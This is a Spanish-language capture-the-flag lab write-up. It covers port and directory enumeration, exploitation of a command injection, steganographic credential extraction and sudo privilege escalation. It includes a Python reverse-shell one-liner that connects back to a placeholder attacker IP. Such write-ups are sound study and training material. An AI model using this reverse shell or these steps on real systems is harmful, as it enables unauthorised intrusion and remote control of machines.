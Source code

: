 ## 1. Enumeración

### Escaneo inicial con Nmap

Comenzamos con la fase de escaneo de puertos utilizando la herramienta `nmap`:

```bash
nmap -sS -p- <IP-OBJETIVO>
```

![Escaneo Nmap](imagesb/bakugo1.png)

Como podemos observar, encontramos **dos puertos abiertos**:

- **80/tcp**: HTTP
- **22/tcp**: SSH

---

### 1.1 Enumeración del puerto 80 (HTTP)

Utilizamos `gobuster` para realizar fuerza bruta a los directorios:

```bash
gobuster dir -u http://<IP-OBJETIVO> -w /usr/share/wordlists/dirb/common.txt
```

Resultados iniciales:

![Gobuster directorios](imagesb/bakugo2.png)

Encontramos el directorio `/assets`. Al ingresar, no se muestra nada útil.

Realizamos fuerza bruta dentro del directorio `assets`:

```bash
gobuster dir -u http://<IP-OBJETIVO>/assets -w /usr/share/wordlists/dirb/common.txt
```

![Gobuster en /assets](imagesb/bakugo3.png)

Dentro del directorio `/assets`, encontramos un archivo `index.php`.

#### Enumeración con Dirsearch

Ejecutamos `dirsearch` para buscar más archivos o vulnerabilidades:

```bash
dirsearch -u http://<IP-OBJETIVO>/assets
```

![Dirsearch resultados](imagesb/bakugo4.png)

Aquí detectamos una vulnerabilidad de **inyección de comandos** en `index.php`.

---

### 1.2 Explotación de la vulnerabilidad

Al interactuar con la vulnerabilidad, encontramos texto codificado en **Base64**. Usamos `CyberChef` para decodificarlo.

![Decodificación en CyberChef](imagesb/bakugo7.png)

Una vez entendida la vulnerabilidad, procedemos a subir una **reverse shell** en Python:

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU_IP>",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

![Subida de reverse shell](imagesb/bakugo8.png)

Logramos obtener acceso a la máquina.

---

### 1.3 Búsqueda de información

#### Archivos interesantes

Al explorar la máquina, encontramos un directorio con imágenes:

![Directorio de imágenes](imagesb/bakugo9.png)

Copiamos las imágenes a nuestra máquina para analizarlas:

```bash
scp usuario@<IP-OBJETIVO>:/ruta/a/las/imagenes .
```

#### Contraseñas codificadas

También encontramos un archivo con una contraseña codificada en Base64:

![Contraseña codificada](imagesb/bakugo11.png)

Decodificamos la contraseña:

```bash
echo "<contraseña-codificada>" | base64 -d
```

---

### 1.4 Análisis de imágenes

Al analizar la imagen `0neforall.jpg`, observamos que tiene un error. Usamos `hexeditor` para inspeccionar su contenido:

```bash
hexeditor 0neforall.jpg
```

![Hexeditor muestra error](imagesb/bakugo13.png)

El encabezado indica que la imagen es de formato PNG. Corregimos el error cambiando el encabezado a JPG.

![Imagen corregida](imagesb/bakugo14.png)

#### Extracción con Steghide

Usamos `steghide` para extraer datos ocultos de la imagen:

```bash
steghide extract -sf 0neforall.jpg
```

![Extracción con Steghide](imagesb/bakugo16.png)

Obtenemos el usuario y contraseña para acceder al servicio SSH.

---

### 2. Conexión por SSH y escalada de privilegios

Nos conectamos por SSH con las credenciales extraídas:

```bash
ssh usuario@<IP-OBJETIVO>
```

![Conexión SSH](imagesb/bakugo17.png)

#### Escalada de privilegios

Identificamos que el usuario puede ejecutar un script con privilegios elevados. Modificamos el archivo `sudoers` para agregar nuestro usuario con privilegios de superusuario:

```bash
sudo visudo
```

Finalmente, obtenemos acceso como **root** y la segunda bandera.

![Acceso root](imagesb/bakugo18.png)

---

### Conclusión

Hemos completado el acceso inicial, la explotación y la escalada de privilegios, logrando obtener las banderas requeridas. ¡Buen trabajo!
